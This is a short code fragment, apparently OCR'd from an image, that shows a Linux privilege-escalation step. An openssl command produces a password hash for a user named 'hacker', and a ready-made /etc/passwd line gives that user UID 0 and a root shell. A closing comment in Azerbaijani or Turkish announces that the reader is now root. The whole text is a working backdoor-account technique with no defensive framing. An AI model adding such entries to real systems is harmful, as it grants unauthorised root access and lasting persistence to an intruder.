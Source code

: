      # openssl passwd -1 -salt hacker pass123
     
   ## hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1/:0:0:root:/root:/bin/bash

   ## sen artiq ROOT'SAN
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1/:0:0:root:/root:/bin/bash
